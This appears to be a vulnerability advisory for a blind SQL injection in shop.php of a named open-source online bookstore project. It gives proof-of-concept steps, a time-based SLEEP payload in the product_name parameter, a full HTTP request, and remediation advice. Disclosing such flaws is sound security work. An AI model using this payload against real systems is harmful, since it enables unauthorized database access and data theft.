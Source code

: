# keerti1924 / Online-Book-Store-Website - shop.php Blind SQL Injection

## Vendor Homepage:
[Online-Book-Store-Website](https://github.com/keerti1924/Online-Book-Store-Website)

## Impact
The 'shop.php' script in keerti1924's Online-Book-Store-Website is vulnerable to Blind SQL Injection attacks. An attacker could exploit this vulnerability to execute arbitrary SQL queries on the underlying database, potentially leading to unauthorized access to sensitive information or data manipulation.

## Proof of Concept
Step 1: Login as a normal user\
Step 2: Add any book to cart
Step 3: Intercept the POST request and inject the following payload into the 'product_name' parameter: "nochizplz'+OR+SLEEP(10)%23". \ 
Step 4: Submit the request and observe a 10-second delay in the response.\

## HTTP Request Example
``` http request
POST /shop.php HTTP/1.1
Host: [REDACTED]
Content-Length: 119
Cache-Control: max-age=0
sec-ch-ua:
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: ""
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: [REDACTED] 
Connection: close

product_quantity=1&product_name=nochizplz'+OR+SLEEP(10)%23&product_price=123.00&product_image=133.php&add_to_cart=Add+to+cart
```

## Proof with screenshot


## Remidiation
To mitigate this issue, developers should implement proper input validation and parameterized queries to prevent SQL injection attacks. Additionally, limiting the privileges of the database user used by the application and enforcing least privilege principles can further reduce the impact of SQL injection vulnerabilities.

## CWE
[CWE-89: Improper Neutralization of Special Elements used in an SQL Command ('SQL Injection')](https://cwe.mitre.org/data/definitions/89.html)